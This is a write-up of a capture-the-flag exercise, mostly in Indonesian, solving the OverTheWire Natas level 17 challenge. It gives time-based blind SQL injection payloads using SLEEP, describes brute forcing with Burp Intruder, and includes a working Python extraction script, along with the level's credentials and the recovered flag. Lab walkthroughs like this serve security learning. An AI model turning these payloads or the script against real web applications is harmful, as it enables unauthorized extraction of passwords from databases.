







# soal
Username: natas17
URL:      http://natas17.natas.labs.overthewire.org

# solve
- login with cred natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
- ketika aku lihat source codenya ini mirip dengan tantangan yang sebelumnya hanya saja tidak terdapat debug echonya
  
- disini saya mencoba untuk melakukan sleep command sql
  ```bash
  # ketika saya coba ini dia menunggu 5 detik dan kurasa ini berhasil
  # kita mengetahui bahwa terdapat user natas18

  natas18" AND SLEEP(2);-- #
  # lama requestnya (true)
  
  natas19" AND SLEEP(2);-- #
  # cepat requestnya (false)
  ```
- kita sudah mengetahui cara mendapatkan true dan falsenya
  ```bash
  natas18" AND substring(password,1,1) = 'a' AND sleep(2);-- #
  natas18" AND BINARY substring(password,1,1) = 'a' AND sleep(2);-- #
  ```
- saya mencoba menggunakan burp suite untuk melakukan brute force
  
  dan saya melihat angka 6 memiliki received paling lama yaitu 2000an dan ketika saya request item again ttp besar jadi saya beramsumsi bahwa huruf pertama nya adalah angka 6
  
- lalu saya mencoba intruder lagi hanya saja dengan 2 variable agar lebih cepat
  
  
  ```bash
  6....b.d.j..lp.g....b.....l..g
  ```
  - dan disini jika kita lihat setelah 634 of 1900 aku telah mendapatkan setengah jawabanya meskipun sebenenrya ketika di coba ada juga beberapa yang error
  - namun karena lama jadi aku mencoba menggunakan python saja agar mempercepat proses brute force

## saya juga menemukan cara menggunakan python
```py
import requests
import re
from time import *

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

Url = "http://natas17.natas.labs.overthewire.org"

session = requests.session()

current_password = list()

while(True):
    for character in characters:
        print("Trying with: " + "".join(current_password) + character)
        startTime = time()
        response = session.post(Url, data={"username": 'natas18" AND password LIKE BINARY "' + "".join(current_password) + character + '%" AND SLEEP(2) #'},auth=(username, password))
        endTime = time()
        if endTime - startTime > 2:
            current_password.append(character)
            break
    if len(current_password) == 32:
            break
```

# flag
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ